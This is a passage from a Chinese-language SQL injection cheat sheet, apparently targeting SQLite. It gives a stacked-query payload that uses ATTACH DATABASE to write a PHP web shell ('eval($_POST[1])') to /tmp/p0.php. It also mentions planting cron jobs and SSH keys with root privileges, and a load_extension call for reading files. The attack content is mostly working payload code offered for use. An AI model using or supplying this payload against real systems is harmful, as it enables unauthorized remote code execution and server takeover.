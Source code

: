 ## 4.4 写文件

**需要直接访问数据库，或堆叠查询选项启用（默认关闭）**

```mysql
';ATTACH DATABASE '/tmp/p0.php' AS p0;CREATE TABLE p0.shell (data text);INSERT INTO p0.shell (data) VALUES ('<?php eval($_POST[1]);?>');--
```

**root权限的话可以写计划任务和公钥，参考redis未授权访问利用。**

## 4.5 读文件

**只能用在Windows上，需要特殊配置。**

```mysql
load_extension(library_file,entry_point)
```

